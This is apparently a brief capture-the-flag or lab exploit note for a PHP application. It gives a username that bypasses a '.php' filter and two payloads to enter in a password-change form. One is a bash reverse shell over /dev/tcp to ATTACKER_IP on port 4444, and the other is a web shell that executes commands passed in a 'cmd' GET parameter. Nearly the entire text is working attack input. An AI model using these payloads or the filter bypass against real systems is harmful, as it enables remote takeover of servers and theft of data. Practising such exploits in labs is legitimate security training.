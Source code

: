 User-> alice:abc123

Payload:

into Username: alice.ph.phpp (.php gets sanitized to empty string thus simply obtaining .php after sanitization)

into Old password: abc123

into New password (remove space between < and ?):
- RAW:< ?php exec("/bin/bash -c 'exec 5<>/dev/tcp/ATTACKER_IP/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done'");?>
- RAW:< ?php system($_GET['cmd']);?>

The first gets a Reverse shell, while the seconds allows you to put commands as 'cmd' get argument in each request.